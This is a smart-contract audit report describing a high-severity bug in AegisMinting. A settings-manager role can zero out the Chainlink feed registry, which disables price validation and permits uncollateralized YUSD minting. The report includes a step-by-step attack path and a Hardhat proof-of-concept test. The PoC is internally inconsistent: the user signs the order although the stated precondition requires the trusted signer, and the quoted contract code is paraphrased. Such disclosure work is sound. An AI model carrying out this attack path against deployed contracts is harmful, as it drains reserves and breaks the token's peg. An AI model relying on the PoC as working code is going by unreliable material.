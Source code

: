 Gentle Yellow Tarantula

High

# A malicious SETTINGS_MANAGER_ROLE will mint uncollateralized YUSD.

In `AegisMinting._calculateMinYUSDAmount`, if the Chainlink feed registry address is set to `address(0)`, the function unconditionally returns the off-chain signed `yusdAmount`, bypassing any on-chain price check. A malicious actor holding the `SETTINGS_MANAGER_ROLE` can set the feed registry to zero, remove all on-chain price validation, and then with a valid off-chain signature—mint arbitrary YUSD against minimal or no collateral.

### Root cause
In `AegisMinting.sol` the `_calculateMinYUSDAmount` function

https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L735C2-L749C4

```solidity
function _calculateMinYUSDAmount(...) internal view returns (uint256) {
  (uint256 chainlinkPrice, uint8 feedDecimals) = _getAssetUSDPriceChainlink(asset);
  if (chainlinkPrice == 0) {
    // returns the signed yusdAmount with no validation
    return yusdAmount;
  }
  …
}
```
Because `setFeedRegistryAddress` does not guard against the zero address, a malicious `SETTINGS_MANAGER_ROLE` holder can disable the Chainlink feed by setting `_feedRegistry = address(0)`, forcing `chainlinkPrice == 0` on every call and skipping all collateral‐ratio enforcement.

### Internal Pre-conditions
1. A holder of `SETTINGS_MANAGER_ROLE` calls `setFeedRegistryAddress(address(0))`.
2. That address call fully takes effect (no multisig or timelock).

### External Pre-conditions
1. The off-chain trusted signer issues a valid EIP-712 signature for an Order with a large `yusdAmount` and matching `slippageAdjustedAmount`.
2. The user (attacker) is on the whitelist (or `whitelistEnabled == false`).

### Attack Path
1. (Privileged Setup) The `SETTINGS_MANAGER_ROLE` calls

```solidity
setFeedRegistryAddress(address(0));
```

disabling on‐chain price checks.

2. (Acquire Signature) The attacker obtains a signed Order authorizing `yusdAmount = 10_000_000 YUSD` (for example).

(Mint) The attacker calls

```solidity
mint(order, signature);
```
`_calculateMinYUSDAmount` sees `chainlinkPrice == 0` and returns `yusdAmount`, so the full 10 million YUSD is minted, regardless of collateral provided.

3. (Profit/Drain) Attacker can then swap that unbacked YUSD for real assets or destabilize the peg.

### Impact
The protocol’s collateralization guarantee is nullified: all on-chain price enforcement is bypassed, allowing unlimited uncollateralized minting. The YUSD peg is compromised, user funds at risk, reserves drained.

### PoC
```solidity
import { expect } from "chai";
import { ethers } from "hardhat";
import { Contract } from "ethers";

describe("Aegis.im YUSD PoC Tests", function () {
  let owner: any;
  let settingsManager: any;
  let fundsManager: any;
  let user: any;
  let AegisConfig: Contract;
  let AegisMinting: Contract;
  let FeedRegistryMock: Contract;
  let YUSD: Contract;

  beforeEach(async () => {
    [owner, settingsManager, fundsManager, user] = await ethers.getSigners();

    // Deploy a simple FeedRegistry mock
    const FeedRegistry = await ethers.getContractFactory("FeedRegistryMock");
    FeedRegistryMock = await FeedRegistry.deploy();
    await FeedRegistryMock.deployed();

    // Deploy YUSD token
    const YUSDFactory = await ethers.getContractFactory("YUSD");
    YUSD = await YUSDFactory.deploy(owner.address);
    await YUSD.deployed();

    // Deploy AegisConfig with settingsManager as operator
    const AegisConfigFactory = await ethers.getContractFactory("AegisConfig");
    AegisConfig = await AegisConfigFactory.deploy(
      owner.address,           // trustedSigner
      [settingsManager.address], // initial operators
      owner.address             // initialOwner
    );
    await AegisConfig.deployed();

    // Deploy AegisMinting
    const AegisMintingFactory = await ethers.getContractFactory("AegisMintingMock");
    AegisMinting = await AegisMintingFactory.deploy(
      YUSD.address,
      AegisConfig.address,
      ethers.constants.AddressZero, // Rewards stub
      ethers.constants.AddressZero, // Oracle stub
      FeedRegistryMock.address,
      owner.address,
      [user.address],                 // supported assets
      [3600],                        // heartbeat
      [owner.address],               // custodians
      owner.address                  // admin
    );
    await AegisMinting.deployed();

    // Grant SETTINGS_MANAGER_ROLE and FUNDS_MANAGER_ROLE to respective signers
    const SETTINGS_ROLE = await AegisMinting.SETTINGS_MANAGER_ROLE();
    await AegisMinting.connect(owner).grantRole(SETTINGS_ROLE, settingsManager.address);
    const FUNDS_ROLE = await AegisMinting.FUNDS_MANAGER_ROLE();
    await AegisMinting.connect(owner).grantRole(FUNDS_ROLE, fundsManager.address);

    // Authorize YUSD minter
    await YUSD.connect(owner).setMinter(AegisMinting.address);

    // Whitelist the user in config
    await AegisConfig.connect(settingsManager).whitelistAddress(user.address, true);
  });

  describe("Disable Feed Registry → Uncollateralized Mint", function () {
    it("allows minting without collateral after registry=0", async function () {
      // Step 1: Deposit dummy collateral to user
      const collateral = ethers.utils.parseUnits("1000", 18);
      await ethers.provider.send("hardhat_setBalance", [user.address, "0xDE0B6B3A7640000"]);

      // Step 2: SETTINGS_MANAGER disables feed registry
      await AegisMinting.connect(settingsManager).setFeedRegistryAddress(ethers.constants.AddressZero);

      // Step 3: Prepare off-chain signed order
      const order = {
        orderType: 0, // MINT
        userWallet: user.address,
        collateralAsset: user.address, // using ETH as dummy
        collateralAmount: ethers.utils.parseUnits("1", 18),
        yusdAmount: ethers.utils.parseUnits("10000", 18),
        slippageAdjustedAmount: ethers.utils.parseUnits("10000", 18),
        expiry: Math.floor(Date.now() / 1000) + 3600,
        nonce: 1,
        additionalData: "0x"
      };
      // Sign order
      const domain = { name: "AegisMinting", version: "1", chainId: await user.getChainId(), verifyingContract: AegisMinting.address };
      const types = { Order: [
        { name: "orderType", type: "uint8"},
        { name: "userWallet", type: "address"},
        { name: "collateralAsset", type: "address"},
        { name: "collateralAmount", type: "uint256"},
        { name: "yusdAmount", type: "uint256"},
        { name: "slippageAdjustedAmount", type: "uint256"},
        { name: "expiry", type: "uint256"},
        { name: "nonce", type: "uint256"},
        { name: "additionalData", type: "bytes"}
      ]};
      const signature = await user._signTypedData(domain, types, order);

      // Step 4: Execute mint - should succeed and mint 10000 YUSD
      await expect(
        AegisMinting.connect(user).mint(order, signature)
      ).to.not.be.reverted;

      const balance = await YUSD.balanceOf(user.address);
      expect(balance).to.equal(order.yusdAmount);
    });
  });
```


### Recommended Mitigation
1. Reject zero address in `setFeedRegistryAddress`.
2. Require a non-zero, non-stale price in `_calculateMinYUSDAmount`.
3. Consider adding a timelock or multi-sig on updating the feed registry.